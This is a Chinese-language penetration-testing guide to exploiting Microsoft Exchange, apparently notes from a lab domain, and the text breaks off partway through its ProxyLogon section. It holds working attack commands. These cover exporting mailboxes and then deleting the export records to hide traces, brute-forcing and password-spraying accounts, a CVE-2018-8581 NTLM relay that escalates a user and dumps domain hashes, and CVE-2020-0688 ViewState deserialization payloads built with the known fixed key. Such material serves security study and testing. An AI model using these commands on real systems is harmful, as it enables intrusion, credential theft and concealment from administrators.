# [](#exchange-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)Exchange 漏洞利用

## [](#1-%E5%AE%89%E8%A3%85)1 安装

> 安装过程可参考：[微软官方文档](https://docs.microsoft.com/zh-cn/exchange/plan-and-deploy/prerequisites?view=exchserver-2016)和[博客](https://www.bookstack.cn/read/exchange/date-2018.12.31.16.40.58)

整体分为三步：

-   满足前置条件
    
-   构建域中的结构
    
    -   `Setup.exe /PrepareSchema /IAcceptExchangeServerLicenseTerms`
        
        `Setup.exe /PAD /OrganizationName:PentestLab /IAcceptExchangeServerLicenseTerms`
        
-   Setup.exe 安装
    


## [](#2-%E8%83%8C%E6%99%AF)2 背景

> Exchange Server 是微软公司的一套**电子邮件服务组件**，是个消息与协作系统。 简单而言，Exchange server 可以被用来构架应用于企业、学校的邮件系统。Exchange server 还是一个协作平台。在此基础上可以开发工作流，知识管理系统，Web 系统或者是其他消息系统。

### [](#21-%E7%9B%B8%E5%85%B3%E6%A6%82%E5%BF%B5)2.1 相关概念

#### [](#211-%E9%82%AE%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%A7%92%E8%89%B2)2.1.1 邮件服务器角色

-   邮件服务器
    -   该角色是提供托管邮箱、公共文件夹以及相关的消息数据（如地址列表）的后端组件，是必选的服务器角色。
-   客户端访问服务器
    -   接收和处理来自于不同客户端的请求的中间层服务器角色，该角色服务器提供了对使用不同协议进行访问的支持，每个 Exchange 环境中至少需要部署一个客户端访问服务器，客户端访问服务器提供了对以下不同接口访问 Exchange 服务器的处理。
-   集线传输服务器
    -   或称中心传输服务器，该服务器角色的核心服务就是 Microsoft Exchange Transport，负责处理 Mail Flow（这又是Exchange中的一大知识点，Exchange 管理员需要通过 MailFlow 实现邮件出站与进站配置）、对邮件进行路由、以及在 Exchange 组织中进行分发，该服务器角色处理所有发往属于本地邮箱的邮件和发往外部邮箱的邮件，并确保邮件发送者和接收者的地址被正确解析并执行特定策略（如邮件地址过滤、内容过滤、格式转换等），该服务器角色相当于一个邮件传输的中继站点，每个 Exchange 环境中至少需要部署一个集线传输服务器。
-   统一消息服务器
    -   将专用交换机（private branch exchange/PBX） 和 Exchange Server 集成在一起，以允许邮箱用户可以在邮件中发送存储语音消息和传真消息，可选角色。
-   边缘消息服务器
    -   该服务器角色作为专用服务器可以用于路由发往内部或外部的邮件，通常部署于网络边界并用于设置安全边界。其接受来自内部组织的邮件和来自外部可信服务器的邮件，然后应用特定的反垃圾邮件、反病毒策略，最后将通过策略筛选的邮件路由到内部的集线传输服务器，可选角色。

在 Exchange Server 2013 及以后的版本中，服务器角色精简为三个，分别是邮箱服务器、客户端访问服务器和边缘传输服务器，其中邮箱服务器角色和客户端访问服务器角色通常被安装在同一台服务器中。

#### [](#212-%E5%AE%A2%E6%88%B7%E7%AB%AF%E8%BF%9C%E7%A8%8B%E8%AE%BF%E9%97%AE%E6%8E%A5%E5%8F%A3%E5%92%8C%E5%8D%8F%E8%AE%AE)2.1.2 客户端/远程访问接口和协议

-   OWA - Outlook Web App
    -   客户端登录使用，地址通常为 [http://DOAMIN/owa/](http://doamin/owa/)
-   ECP - Exchange Administrative Center
    -   管理中心，管理员用于管理组织中的 Exchange 的 Web 控制台，地址通常为 [http://DOMAIN/ecp/](http://domain/ecp/)
-   EWS - Exchange Web Service
    -   网络管理接口。Exchange 提供了一套 API 编程接口可供开发者调用，用于访问 Exchange 服务器，与邮件、联系人、日历等功能进行交互和管理操作，在 Exchange Server 2007 中被提出。微软基于标准的 Web Service 开发 EWS，EWS 实现的客户端与服务端之间通过基于 HTTP 的 SOAP 交互。

### [](#22-%E6%9C%8D%E5%8A%A1%E5%8F%91%E7%8E%B0)2.2 服务发现

#### [](#221-%E5%9F%BA%E4%BA%8E%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F%E5%8F%91%E7%8E%B0)2.2.1 基于端口扫描发现

-   25 端口 SMTP 指纹显示 Exchange smtpd
-   80 端口为 iis
-   443 端口开放

#### [](#222-spn-%E6%9F%A5%E8%AF%A2)2.2.2 SPN 查询

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>setspn -T pentest.com -F -Q */*<br>``` |

### [](#23-exchange-%E5%9F%BA%E6%9C%AC%E6%93%8D%E4%BD%9C)2.3 exchange 基本操作

-   查看 MailBox 数据库

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Add-pssnapin microsoft.exchange*<br>Get-MailboxDatabase -server "Exchange"<br>``` |



-   查看指定用户邮箱使用信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-Mailboxstatistics -identity administrator \| Select DisplayName,ItemCount,TotalItemSize,LastLogonTime<br>``` |



-   查看全部用户邮箱使用信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-Mailbox -ResultSize Unlimited \| Get-MailboxStatistics \| Sort-Object TotalItemSize<br>``` |

### [](#24-%E5%AF%BC%E5%87%BA%E6%8C%87%E5%AE%9A%E9%82%AE%E4%BB%B6)2.4 导出指定邮件

#### [](#241-%E9%85%8D%E7%BD%AE%E7%94%A8%E6%88%B7%E7%9A%84%E5%AF%BC%E5%85%A5%E5%AF%BC%E5%87%BA%E6%9D%83%E9%99%90)2.4.1 配置用户的导入、导出权限

-   查看用户权限

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br># 查看具有导出权限的用户<br>Get-ManagementRoleAssignment -role "Mailbox Import Export" \| Format-List RoleAssigneeName<br>``` |

-   添加用户角色权限

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>New-ManagementRoleAssignment -Name "Import Export_Domain Admins" -User "Administrator" -Role "Mailbox Import Export"<br>``` |

-   删除用户权限

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>New-ManagementRoleAssignment "Import Export_Domain Admins" -Confirm:$false<br>``` |

-   设置网络共享文件夹

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>net share inetpub=c:\inetpub /grant:everyone,full<br>``` |

-   导出邮件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>New-MailboxExportRequest -Mailbox administrator -FilePath \\IP\inetpub\administrator.pst<br>``` |

### [](#242-%E6%B8%85%E7%90%86%E7%97%95%E8%BF%B9)2.4.2 清理痕迹

-   查看之前的导出记录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-MailboxExportRequest<br>``` |

-   将指定用户的已完成导出请求删除

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Remove-MailboxExportRequest -Identify Administrator\mailboxexport<br>``` |

-   将所有已完成导出的请求删除

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-MailboxExportRequest -Status Completed \| Remove-MailboxExportRequest<br>``` |

## [](#3-exchange-%E5%9C%A8%E5%9F%9F%E4%B8%AD%E7%9A%84%E6%9D%83%E9%99%90)3 Exchange 在域中的权限

查看 Exchange 服务器的隶属关系，发现其属于：`Exchange Security Groups`


再跟进 `CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=pentest,DC=lab`



该组又隶属于 `CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=pentest,DC=lab`，该组包含通过管理服务代表用户运行 Exchange cmdlet 的 Exchange 服务器。其成员有权读取和修改所有 Windows 帐户和组。

简单来说，就是 Exchange 服务器有权限修改域内任意用户的 ACL。

因此，可以利用 Exchange 修改用户 ACL，然后在利用 Dcsync 来 dump hash。

## [](#4-exchange-%E6%8E%A5%E5%8F%A3%E5%88%A9%E7%94%A8)4 Exchange 接口利用

上文提到，Exchange 提供了多种客户端邮箱接口和服务接口，对于渗透测试人员而言，这些接口就是踏入 Exchange 内部的第一道关卡，提供服务的接口需要有效的用户凭证信息，显然，用户名与密码破解是摆在面前的第一个尝试。在企业域环境中，Exchange 与域服务集合，域用户账户密码就是 Exchange 邮箱的账户密码，因此，如果通过暴力破解等手段成功获取了邮箱用户密码，在通常情况下也就间接获得了域用户密码。

### [](#41-%E5%88%A9%E7%94%A8%E8%87%AA%E5%8A%A8%E5%8F%91%E7%8E%B0%E6%9C%8D%E5%8A%A1%E8%BF%9B%E8%A1%8C%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3)4.1 利用自动发现服务进行暴力破解

Autodiscover 自动发现服务使用 Autodiscover.xml 配置文件来对用户进行自动设置，获取该自动配置文件需要用户认证，如访问 [http://exchange.pentest.lab/Autodiscover/Autodiscover.xml](http://exchange.pentest.lab/Autodiscover/Autodiscover.xml) 文件将提示需要认证，如下为认证通过，将获取到如下的 XML 文件内容：



利用这个接口，可以对邮箱账号做暴力破解。[Ruler](https://github.com/sensepost/ruler) 提供了对 Exchange 的自动配置文件接口进行认证的暴力破解，通过配置线程数、间隔时间可以限制破解速度防止多次登陆失败触发告警或账户被封禁。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./ruler --url https://172.16.147.4/autodiscover/autodiscover.xml --domain pentest.lab --insecure brute --users user.txt --passwords pass.txt --delay 0 --verbose<br>``` |



### [](#42-password-spray)4.2 Password Spray

password spray 同样是一种破解账户密码的方法，与常规的暴力破解方法不同的是，password spary 针对一批账户进行破解，每次对单个用户账户进行一次或少数次登陆尝试后换用下一个用户进行尝试，如此反复进行并间隔一定时间，以此方法躲避多次暴力破解的检测和账户锁定的风险。

mailsniper 提供分别针对 `OWA` 接口、`EWS` 接口和 `ActiveSync` 接口的 password spray。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Invoke-PasswordSprayEWS -ExchHostname exchange.pentest.lab -UserList .\user.txt -Password 123456 -ExchangeVersion Exchange2016<br>``` |


## [](#5-%E5%88%A9%E7%94%A8-exchange-%E6%8E%A5%E7%AE%A1%E5%9F%9F%E6%8E%A7)5 利用 Exchange 接管域控

### [](#51-cve-2018-8581-ssrf-%E6%BC%8F%E6%B4%9E)5.1 CVE-2018-8581 SSRF 漏洞

#### [](#511-%E6%BC%8F%E6%B4%9E%E6%8F%8F%E8%BF%B0)5.1.1 漏洞描述

Exchange 允许任意用户通过 EWS 接口来创建一个推送订阅（Push Subscription），并可以指定任意 URL 作为通知推送的目的地； 当触发推送时，Exchange 使用了 `CredentialCache` 类的 `DefaultCredentials` 属性，当使用 `DefaultCredentials` 时发出的 HTTP 请求将使用该权限发起 `NTLM` 认证； 在 EWS 请求中，通过在 Header 中使用 `SerializedSecurityContext`，指定 SID 可以实现身份伪装，从而以指定用户身份进行 EWS 调用操作。

即从 HTTP relay 到 LDAP 的 NTLM Relay 攻击。

#### [](#512-%E5%8F%97%E5%BD%B1%E5%93%8D%E7%9A%84%E7%B3%BB%E7%BB%9F%E7%89%88%E6%9C%AC)5.1.2 受影响的系统版本

-   Exchange Server 2010 ~ Exchange Server 2016

#### [](#513-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)5.1.3 漏洞复现

漏洞利用到两个工具：

-   [impacket](https://github.com/SecureAuthCorp/impacket/)
-   [PrivExchange](https://github.com/dirkjanm/PrivExchange)

首先在本机启动 NTLM 中继，进入到 `impacket` 的 `examples` 目录执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python2 ntlmrelayx.py -t ldap://pentest.lab --escalate-user hacker<br>``` |

`pentest.lab` 是域的名称

`--escalate-user` 的参数是 Exchange 的普通权限用户名。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python2 privexchange.py -ah 172.16.147.1 172.16.147.4 -u hacker -p "hack123aB" -d pentest.lab<br>``` |

`-ah` 参数指定攻击者 IP，在这里为 `172.16.147.1`

`172.16.147.4` 为 Exchange 服务器在域的名称或者IP地址 `-u` 指定需要提权的 Exchange 的普通权限用户名 `-p`指定 Exchange 的普通权限用户的密码 `-d` 指定域的名称

导出域内 hash：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python2 secretsdump.py pentest.lab/hacker@pentest.lab -just-dc<br>``` |

### [](#52-cve-2020-0688-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E)5.2 CVE-2020-0688 反序列化漏洞

#### [](#521-%E6%BC%8F%E6%B4%9E%E6%8F%8F%E8%BF%B0)5.2.1 漏洞描述

与正常软件安装每次都会产生随机密钥不同，所有 Exchange Server 在安装后的 web.config 文件中都拥有相同的 validationKey 和 decryptionKey。这些密钥用于保证 ViewState 的安全性。

而 ViewState 是 ASP.NET Web 应用以序列化格式存储在客户机上的服务端数据。客户端通过 `__VIEWSTATE` 请求参数将这些数据返回给服务器。攻击者可以在 Exchange Control Panel web 应用上执行任意 .net 代码。

当攻击者通过各种手段获得一个可以访问 Exchange Control Panel （ECP）组件的用户账号密码时。攻击者可以在被攻击的 exchange 上执行任意代码，直接获取服务器权限。

具体原理可以参考：[CVE-2020-0688的武器化与.net反序列化漏洞那些事](https://www.zcgonvh.com/zb_users/upload/2020/03/202003011583061708182069.pdf)

#### [](#522-%E5%8F%97%E5%BD%B1%E5%93%8D%E7%9A%84%E7%B3%BB%E7%BB%9F%E7%89%88%E6%9C%AC)5.2.2 受影响的系统版本

-   Microsoft Exchange Server 2010 Service Pack 3
-   Microsoft Exchange Server 2013
-   Microsoft Exchange Server 2016
-   Microsoft Exchange Server 2019

#### [](#523-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)5.2.3 漏洞复现

##### [](#5231-%E5%89%8D%E6%8F%90)5.2.3.1 前提

首先，需要获取 4 个参数：

-   validationkey 该参数为默认，为漏洞产生的原因
    -   CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF
-   validationalg 默认
    -   SHA1
-   generator
-   viewstateuserkey

在这四个变量中，前两个为默认固定，viewstateuserkey 和 generator 的值需要从经过身份验证的 session 中收集。`viewstateuserkey` 可以从 ASP.NE T的 `_SessionID cookie` 中获取，而 `generator` 可以在一个隐藏字段 `__VIEWSTATEGENERATOR` 中找到。

##### [](#5232-%E5%8F%82%E6%95%B0%E8%8E%B7%E5%8F%96)5.2.3.2 参数获取

在正常登录后访问 `/ecp/default.aspx` 页面。使用 burpsuite 抓包发 repeater，找到登录时 `/ecp/default.aspx` 的原始响应。

找到 `ASP.NET_SessionId` 的 `cookie`：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>ASP.NET_SessionId=d7d6614a-4959-4989-a3d1-27e6efd8875d<br>``` |

搜索 `__VIEWSTATEGENERATOR` 获取字段值：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>B97B4E27<br>``` |


##### [](#5233-%E7%94%9F%E6%88%90-payload)5.2.3.3 生成 payload

需要用到 [ysoserial.net](https://github.com/pwntester/ysoserial.net)

-   生成执行程序的 payload

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="d7d6614a-4959-4989-a3d1-27e6efd8875d" --isdebug --islegacy<br>``` |

得到：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>/wEylAcAAQAAAP////8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAAC2BTw/eG1sIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9InV0Zi04Ij8+DQo8T2JqZWN0RGF0YVByb3ZpZGVyIE1ldGhvZE5hbWU9IlN0YXJ0IiBJc0luaXRpYWxMb2FkRW5hYmxlZD0iRmFsc2UiIHhtbG5zPSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbC9wcmVzZW50YXRpb24iIHhtbG5zOnNkPSJjbHItbmFtZXNwYWNlOlN5c3RlbS5EaWFnbm9zdGljczthc3NlbWJseT1TeXN0ZW0iIHhtbG5zOng9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sIj4NCiAgPE9iamVjdERhdGFQcm92aWRlci5PYmplY3RJbnN0YW5jZT4NCiAgICA8c2Q6UHJvY2Vzcz4NCiAgICAgIDxzZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICAgICAgPHNkOlByb2Nlc3NTdGFydEluZm8gQXJndW1lbnRzPSIvYyBjYWxjLmV4ZSIgU3RhbmRhcmRFcnJvckVuY29kaW5nPSJ7eDpOdWxsfSIgU3RhbmRhcmRPdXRwdXRFbmNvZGluZz0ie3g6TnVsbH0iIFVzZXJOYW1lPSIiIFBhc3N3b3JkPSJ7eDpOdWxsfSIgRG9tYWluPSIiIExvYWRVc2VyUHJvZmlsZT0iRmFsc2UiIEZpbGVOYW1lPSJjbWQiIC8+DQogICAgICA8L3NkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgIDwvc2Q6UHJvY2Vzcz4NCiAgPC9PYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U+DQo8L09iamVjdERhdGFQcm92aWRlcj4LSXUwoXG5VzeGJVCJLwnNz8xsRfw=<br>``` |

生成完 payload 代码后，需要对该代码中的特殊字符进行 URL Encode 编码构造一个 URL：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState><br>``` |

将最开始获得的 `__VIEWSTATEGENERATOR` 值替换 generator，将 URL Encode 编码后的 payload 替换 ViewState。




-   生成写文件的 payload

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "cmd /c echo POC > C:\1.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="80677c59-fde2-4534-b8ae-97f3997b009a" --isdebug --islegacy<br>``` |

### [](#53-proxylogon)5.3 ProxyLogon

#### [](#531-%E6%BC%8F%E6%B4%9E%E6%8F%8F%E8%BF%B0)5.3.1 漏洞描述

ProxyLogon 是 CVE-2021-26855 和 CVE-2021-27065 两个漏洞的组合利用。


Exchange 是一个非常复杂的应用程序。 自 2000 年以来，Exchange 每 3 年发布一个新版本。 每当 Exchange 发布新版本时，体系结构都会发生很大变化并变得不同。架构和迭代的变化使得升级 Exchange Server 变得困难。 为了保证新旧架构之间的兼容性，Exchange Server 导致存在了新的攻击面。


在 Microsoft Exchange 上重点关注于客户端访问服务 Client Access Service(CAS)。 CAS 是 Exchange 的基本组件。在 Exchange 2000/2003 版本，CAS 是一个独立的 Frontend Server，负责所有 Frontend Web 的逻辑。 经过多次重命名、集成和版本差异，CAS 已成为 Mail Role 下的组件。

##### [](#5311-cas-%E6%9E%B6%E6%9E%84)5.3.1.1 CAS 架构

CAS 是负责接受来自客户端的所有连接的基本组件，包括 HTTP、POP3、IMAP 还是 SMTP，并将连接代理到相应的后端服务。


CAS 网站搭建在 Microsoft IIS 上。IIS 中有两个站点。「Default Website」是之前提到的前端，「Exchange Backend」是负责处理业务逻辑。查看配置后可以发现，Frontend 绑定了 80 和 443 端口，Exchange Backend 监听了 81 和 444 端口。所有端口都绑定了 0.0.0.0，这意味着可以访问 Frontend 和 Backend。


Exchange 系统的服务架构如下图所示，由前端和多个后端组件组成。⽤户基于各类协议对 Exchange 的前端发起请求，前端解析请求后会将其转发到后端相对应的服务当中。以基于 HTTP/HTTPS 协议的访问为例，来⾃ Outlook 或 Web 客户端的请求会⾸先经过 IIS，然后进⼊到 Exchange 的 HTTP 代理，代理根据请求类型将 HTTP 请求转发到不同的后端组件中。


##### [](#5312-frontend-proxy)5.3.1.2 Frontend Proxy

Frontend Proxy 模块根据当前的 `ApplicationPath` 选择处理程序来处理来自客户端的 HTTP 请求。 比如访问 `/EWS` 会使用 `EwsProxyRequestHandler`，而 /OWA 会触发 `OwaProxyRequestHandler`。 Exchange 中的所有处理程序都继承了 `ProxyRequestHandler` 类，并实现了它的核心逻辑，包括：如何处理来自用户的 HTTP 请求，从 Backend 到代理的 URL，以及如何与 Backend 同步信息。该类也是整个 Proxy Module 中最核心的部分，将 ProxyRequestHandler 分成 3 个部分：


-   Request Section

`Request Section` 解析来自客户端的 HTTP 请求并确定哪些 cookie 和标头可以代理到后端。Frontend 和 Backend 依靠 HTTP Headers 来同步信息和代理内部状态。因此，Exchange 定义了一个黑名单，以避免某些内部 Headers 被滥用。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```c\#<br>protected virtual bool ShouldCopyHeaderToServerRequest(string headerName) {<br>  return !string.Equals(headerName, "X-CommonAccessToken", OrdinalIgnoreCase) <br>      && !string.Equals(headerName, "X-IsFromCafe", OrdinalIgnoreCase) <br>      && !string.Equals(headerName, "X-SourceCafeServer", OrdinalIgnoreCase) <br>      && !string.Equals(headerName, "msExchProxyUri", OrdinalIgnoreCase) <br>      && !string.Equals(headerName, "X-MSExchangeActivityCtx", OrdinalIgnoreCase) <br>      && !string.Equals(headerName, "return-client-request-id", OrdinalIgnoreCase) <br>      && !string.Equals(headerName, "X-Forwarded-For", OrdinalIgnoreCase) <br>      && (!headerName.StartsWith("X-Backend-Diag-", OrdinalIgnoreCase) <br>      \| this.ClientRequest.GetHttpRequestBase().IsProbeRequest());<br>}<br>``` |

在 Request 的最后阶段，Proxy Module 会调用 handler 实现的 `AddProtocolSpecificHeadersToServerRequest` 方法，在 HTTP 头中添加要与 Backend 交换的信息。这一阶段还会将当前登录用户的信息序列化，放到一个新的 HTTP 头 `X-CommonAccessToken` 中，再转发给 Backend。

-   Proxy Section

Proxy Section 首先使用 `GetTargetBackendServerURL` 方法来计算应将 HTTP 请求转发到哪个后端 URL。 然后使用 `CreateServerRequest` 方法初始化一个新的 HTTP 客户端请求。

**HttpProxy\\ProxyRequestHandler.cs**

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```c\#<br>protected HttpWebRequest CreateServerRequest(Uri targetUrl) {<br>    HttpWebRequest httpWebRequest = (HttpWebRequest)WebRequest.Create(targetUrl);<br>    if (!HttpProxySettings.UseDefaultWebProxy.Value) {<br>        httpWebRequest.Proxy = NullWebProxy.Instance;<br>    }<br>    httpWebRequest.ServicePoint.ConnectionLimit = HttpProxySettings.ServicePointConnectionLimit.Value;<br>    httpWebRequest.Method = this.ClientRequest.HttpMethod;<br>    httpWebRequest.Headers["X-FE-ClientIP"] = ClientEndpointResolver.GetClientIP(SharedHttpContextWrapper.GetWrapper(this.HttpContext));<br>    httpWebRequest.Headers["X-Forwarded-For"] = ClientEndpointResolver.GetClientProxyChainIPs(SharedHttpContextWrapper.GetWrapper(this.HttpContext));<br>    httpWebRequest.Headers["X-Forwarded-Port"] = ClientEndpointResolver.GetClientPort(SharedHttpContextWrapper.GetWrapper(this.HttpContext));<br>    httpWebRequest.Headers["X-MS-EdgeIP"] = Utilities.GetEdgeServerIpAsProxyHeader(SharedHttpContextWrapper.GetWrapper(this.HttpContext).Request);<br>    <br>    // ...<br>    <br>    return httpWebRequest;<br>}<br>``` |

Exchange 还将通过后端的 `HTTP Service-Class` 生成 Kerberos 票证，并将其放入 Authorization 头中。 此请求头旨在防止匿名用户直接访问后端。使用 Kerberos 票证，后端可以验证来自前端的访问。

**HttpProxy\\ProxyRequestHandler.cs**

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```c\#<br>if (this.ProxyKerberosAuthentication) {<br>    serverRequest.ConnectionGroupName = this.ClientRequest.UserHostAddress + ":" + GccUtils.GetClientPort(SharedHttpContextWrapper.GetWrapper(this.HttpContext));<br>} else if (this.AuthBehavior.AuthState == AuthState.BackEndFullAuth \| this.<br>    ShouldBackendRequestBeAnonymous() \| (HttpProxySettings.TestBackEndSupportEnabled.Value  <br>    && !string.IsNullOrEmpty(this.ClientRequest.Headers["TestBackEndUrl"]))) {<br>    serverRequest.ConnectionGroupName = "Unauthenticated";<br>} else {<br>    serverRequest.Headers["Authorization"] = KerberosUtilities.GenerateKerberosAuthHeader(<br>        serverRequest.Address.Host, this.TraceContext, <br>        ref this.authenticationContext, ref this.kerberosChallenge);<br>}<br>``` |

**HttpProxy\\KerberosUtilities.cs**

|     |     |     |
| --- | --- | --- |
